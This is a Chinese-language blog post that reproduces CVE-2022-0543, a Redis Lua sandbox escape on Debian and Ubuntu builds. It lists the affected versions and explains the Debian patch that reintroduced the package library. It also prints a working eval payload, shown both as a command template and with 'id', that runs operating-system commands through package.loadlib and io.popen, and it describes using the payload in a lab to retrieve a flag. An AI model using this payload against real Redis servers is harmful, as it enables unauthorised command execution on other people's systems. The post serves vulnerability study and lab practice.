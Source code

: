```yaml
---
title: CVE-2022-0543 Redis Lua
date: 2023-02-08 14:51:49
tags: [CVE漏洞,redis]
categories: CVE漏洞复现
---
```


##### eval 'local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io"); local io = io_l(); local f = io.popen("     指令     ", "r"); local res = f:read("*a"); f:close(); return res' 0

影响范围：Debian系得linux发行版本+Ubuntu

	2.2 <= redis < 5.0.13
	2.2 <= redis < 6.0.15
	2.2 <= redis < 6.2.5
<!-- more -->

### 一、描述

​		影响范围：Debian系得linux发行版本+Ubuntu

​		其并非Redis本身漏洞，形成原因在于系统补丁加载了一些redis源码注释了的代码

​		揭露时间：2022.3.8

### 二、原理

​		redis在用户连接后可以通过eval命令执行Lua脚本，但是脚本跑在沙箱中，正常情况下无法执行命令读取文件，所以这个漏洞的本质是沙箱绕过。

Ubuntu/Debian/CentOS等这些发行版本会在原始软件的基础上打一些补丁包，其中给Redis打了一个的补丁,增加了一个include, 下面是Debian通过shell使用make生成补丁包的源码：

```c
debian/lua_libs_debian.c:
    echo "// Automatically generated; do not edit." >$@
    echo "luaLoadLib(lua, LUA_LOADLIBNAME, luaopen_package);" >>$@
    set -e; for X in $(LUA_LIBS_DEBIAN_NAMES); do \
        echo "if (luaL_dostring(lua, \"$$X = require('$$X');\"))" >>$@; \
        echo "    serverLog(LL_NOTICE, \"Error loading $$X library\");" >>$@; \
    done
    echo 'luaL_dostring(lua, "module = nil; require = nil;");' >>$@

```

- `luaLoadLib(lua, LUA_LOADLIBNAME, luaopen_package)`就是漏洞的来源

这段代码原本被注释掉，而这个补丁却重新把他写了进去，导致在Lua沙箱中遗留了一个对象package，攻击者可以利用package对象提供的加载动态链接库liblua里的函数逃逸。

```c
local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io");
local io = io_l();
local f = io.popen("id", "r");
local res = f:read("*a");
f:close();
return res
```

注：不同系统下liblua5.1.so.0路径不同

​		io.popen("", "r"); 的第一个引号内为执行命令

连接后可以使用以下命令逃逸

```c
eval 'local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io"); local io = io_l(); local f = io.popen("id", "r"); local res = f:read("*a"); f:close(); return res' 0
```

### 三、复现

![](CVE-2022-0543-Redis-Lua/1.png)

​			 在靶场中启用镜像

​			一般情况下，redis运行在6379（默认端口），而在此镜像中映射于36770端口可以使用nmap扫描端口发现相应服务

​			使用kali的redis-cli尝试连接redis，进入后使用eval使用相关脚本 ls  /tmp 找到flag

![](CVE-2022-0543-Redis-Lua/2.png)

该漏洞成功复现
